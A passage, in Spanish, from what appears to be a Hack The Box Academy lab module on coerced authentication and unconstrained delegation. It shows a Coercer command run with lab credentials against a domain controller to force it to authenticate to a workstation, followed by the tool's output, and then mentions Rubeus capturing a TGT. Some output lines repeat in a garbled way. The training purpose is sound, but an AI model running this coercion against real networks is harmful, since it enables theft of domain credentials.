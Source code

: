 ![](https://academy.hackthebox.com/storage/modules/176/A11/RubeusMonitor.png)

A continuación, necesitamos saber la dirección IP de WS001, que podemos obtener ejecutando`ipconfig`. Una vez conocido, cambiaremos a la máquina Kali para ejecutar`Coercer`Hacia DC1, mientras lo obligamos a conectarse a WS001 si el coercing es exitoso:

Ataques coaccionados y delegación sin restricciones

```
xnoxos@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!

```

![](https://academy.hackthebox.com/storage/modules/176/A11/Coercer.png)

Ahora, si cambiamos a WS001 y miramos la salida continua que`Rubeus`Proporcionar, debe haber un TGT para DC1 disponible:

Ataques coaccionados y delegación sin restricciones
